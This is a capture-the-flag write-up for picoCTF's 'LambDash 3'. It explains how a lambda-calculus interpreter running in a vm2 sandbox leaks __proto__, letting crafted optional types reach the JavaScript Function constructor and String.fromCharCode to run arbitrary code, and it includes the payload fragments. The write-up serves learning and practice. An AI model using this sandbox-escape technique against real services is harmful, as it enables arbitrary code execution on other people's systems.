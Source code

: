 # LambDash 3
In this challenge we were given a site with an introduction to a variant of the Lambda Calculus language called SystemF, along with an online web shell. 

### Getting the source
First thing I did was sending an extremely large payload to the interpreter (endpoint: `/run`) to see what would happen. It returned a stack trace containing the path to the challenge files. I logged in to the picoCTF shell, zipped the whole directory, and downloaded it with scp. 

### Initial setup
We can see that this app is written in TypeScript and is running on NodeJS. I set it up locally to make exploiting and debugging easier. To do this, navigate to the directory named "problem" in source and run the following command:
```sh
tsc --build tsconfig.json && node --inspect ./dist/server.js
```

The app will be compiled and run on local port 4001. You can also debug it like any other Node app using Chromium DevTools by visiting `chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9229/<uuid>`, where <uuid> is the UUID given to you when you run the app. 

### Analysis
Okay, now we're in possession of the app's source code and the app is running locally. Let us analyze what is this app doing. If you access `/problem/src/server.ts`, you can see the source of the `/run` endpoint:
```javascript
	app.post("/run", (req, res) => {
		let code = req.body.code;
		let ast: E; 
		try {
			ast = parse(code);
		} catch (e) {
			res.send(`Error -- code did not parse<br>${e.toString()}`);
			return;
		}
		let type: Type;
		try {
			type = typecheck(ast);
		} catch (e) {
			res.send(`Error -- code did not typecheck<br>${e.toString()}`);
			return;
		}
		let vm = new vm2.NodeVM({
			timeout: 1000,
			sandbox: {
				ast,
				hidden: {
					getFlag: ((f: string) => ((x: string) => {
						if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
							return f;
						}
						return "Bad! " + x;
					}))(process.env.FLAG)
				},
			},
			require: {
				context: "sandbox",
				external: ["./emulator", "immutable"],
				root: __dirname,
			},
		});
		try {
			let result = vm.run(new vm2.VMScript(`
				let emulator = require("${__dirname}/emulator");
				module.exports = emulator.resToString(emulator.default(ast));
			`));
			console.log(result);
			res.send(`Result:<br>${result}:${typeToString(type)}`);
		} catch (e) {
			console.log("Wut", e.stack);
			res.send(`Error -- failed to execute<br>${e}`);
		}

	})
```
It does a few things:
* It parses the received code to get AST (abstract syntax tree)
* It checks if all types in the program are okay
* It runs the program in a Node sandbox of some kind, while also passing an object containing the function that we're interested in:
```javascript
hidden: {
	getFlag: ((f: string) => ((x: string) => {
		if (x === "if you can get this you deserve the flag -> abcd1234!@#$%^&*()'") {
			return f;
		}
		return "Bad! " + x;
	}))(process.env.FLAG)
},
```
* It prints the result of the program to the user

As such, our objective is clear: it's to submit a piece of code to /run that would run `hidden.getFlag("if you can get this you deserve the flag -> abcd1234!@#$%^&*()'")` and return the result. Easy enough, isn't it? Well, I found it everything _but_ easy, as my knowledge of both JS and functional programming is pretty much non-existent. At this point I started learning from the provided tutorial, submitting different programs, analyzing them, analyzing the code of the interpreter (located in `/problem/src/emulator.ts`), and so on. It took me about 10 hours.

### Exploitation
LC = Lambda Calculus SystemF, the language used in this task

*While writing this solution, it occurred to me that my original solution was a bit needlessly complicated and contained some redundancy. This solution is slightly more reasonable. You can find the original payload that I used to solve this task in payload_old.txt.*

There is only one bug that we need to find in order to solve this task, and everything else is its consequence.
LC has tuples and optional types, both of which are implemented as JS objects. Therefore, if you have tuple consisting of int f and int g, it will internally exist as a JS object, such as:
```javascript
{
    f: 5
    g: 10
}
```
Optional type is very similar, except there is just one variable in it. When the interpreter wants to do something with an optional type, it iterates over the possible parameter names and checks if a parameter is present in the object (`object[name] != undefined`).
Objects to be used as tuples/optionals are created using this function (you can find it in `/problem/src/emulator.ts`):
```javascript
function getCleanObject(): { [key: string]: any } {
	let obj = {};
	for (let prop of Object.getOwnPropertyNames((obj as any).__proto__)) {
		(obj as any)[prop] = undefined;
	}
	(obj as any).__proto__ = undefined;
	return obj;
}
```
_Now comes the part that I still cannot fully comprehend, some help from a NodeJS expert would be greatly appreciated._

The most important part of the solution is to figure out that this function doesn't really work. I'm not sure why, but it probably has to do with Node internals. If you create an object using `a = getCleanObject()`, it will **still have** the `__proto__` attribute, instead of having it undefined, which means you can reference `a['__proto__']`. 
Knowing that in any optional the `__proto__` attribute is always set, we can define an optional with 
```< `__proto__ { `constructor { `constructor int }} + `val int>```, 
and proceed to create a new instance of it with `val` set to a number. While processing this optional, we can tell the interpreter to look for the `__proto__` attribute first. It will of course find it, thinking that it is a tuple containing an attribute called `constructor`, which in turn is another tuple containing an attribute called `constructor`. So, by extracting it, we do something like:
```javascript
a = {}
a['__proto__']['constructor']['constructor']
```
Which gives us the JavaScript function constructor. How to do it in LC? Here's the code:
```
(alias opta = < `__proto__ { `constructor { `constructor int -> (int -> int)}} + `val int -> (int -> int)> in
(lambda argb:opta.
    case(argb) {
        `__proto__ rr -> rr#`constructor#`constructor
        | `val rr -> rr}
)(`val (lambda xx:int.lambda xxx:int.xx) as opta))
```
I changed the parameter types from int to int -> (int -> int), because we need to call this constructor, and then call the function that it returns. So now we've fooled the interpreter into thinking that the JavaScript function constructor is a lambda expression taking an int and returning another lambda expression, which in turn takes an int and returns an int. Complicated, but now we're just one step away from victory, and the question is: how to pass a string to that function?

Well, LC doesn't have strings, so we have to implement them ourselves, which was easy compared to the rest of the task.
We can use the exact same trick as before, but this time let's retrieve the String.fromCharCode method instead.
In JS that would be:
```javascript
a['__proto__']['constructor']['name']['constructor']['fromCharCode']
```
As translated to LC:
```
(alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta))
```
We can then call this lambda by passing an int to it, and we receive the corresponding char (which the interpreter thinks is an int).
All that's left is to concatenate those chars using a different lambda, pass the string to the function constructor, and call the result. 
Example demonstrating the construction of a two char long string:
```
(lambda a : int.
lambda b : int.
    a + b)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 65)
((alias opta = < `__proto__ { `constructor { `name { `constructor { `fromCharCode int -> int}}}} + `val int -> int> in
(lambda argb:opta.
    case(argb) {
        `__proto__ r -> r#`constructor#`name#`constructor#`fromCharCode 
        | `val r -> r
    }
)(`val (lambda x:int.x) as opta)) 66)
```
After preparing the full payload and pasting it to the site, we got the flag, which I unfortunately didn't save anywhere :D
The full payload is available in payload.txt.
